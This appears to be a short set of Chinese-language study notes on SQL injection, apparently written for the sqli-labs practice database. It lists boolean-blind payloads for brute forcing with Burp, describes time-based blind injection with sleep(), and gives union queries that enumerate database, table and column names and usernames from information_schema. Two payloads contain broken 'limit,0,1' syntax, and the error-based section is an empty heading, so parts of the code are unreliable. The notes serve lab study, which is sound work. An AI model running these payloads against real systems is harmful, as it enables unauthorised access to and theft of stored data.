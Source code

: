 由于sql不区分大小写，所以爆破容易产生大小写混乱，我们可以加入ascii进行转换

在burp中空格要用%20或者+替代

```
查询数据库名长度
length(database())=1

查询数据库名
ascii(substr((select database()),1,1))=ascii('a')

查询数据库下表的名称
ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=ascii('a')


查询数据库下列的名称
ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit,0,1),1,1))=ascii('a')

查询数据库下各列对应的值
ascii(substr((select username from users limit,0,1 ),1,1))=ascii('a')
```



```
limit函数
limit 第几行，第几个数据

if()函数
if(条件,成立执行,不成立执行)

substr()函数
substr(字符串,起始位置,截取长度)

left()函数
left(字符串,左数第几位)

sleep函数
sleep(睡眠时间s)
```













布尔盲注

布尔盲注利用输入信息的回显进行判断，一般输入正确会出现一个值，输入错误会出现一个值

时间盲注

时间盲注基于无论输入是否正确都显示同样的内容，我们利用sleep函数进行检测输入是否正确

报错盲注

联合注入

联合注入就是测试输入点然后利用语句输出你想要查询的东西

```
查询数据库名
select database()

查询数据库下表的名称
select table_name from information_schema.tables where table_schema='security' limit 0,1


查询数据库下列的名称
select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1

查询数据库下各列对应的值
select username from users limit 0,1 
```





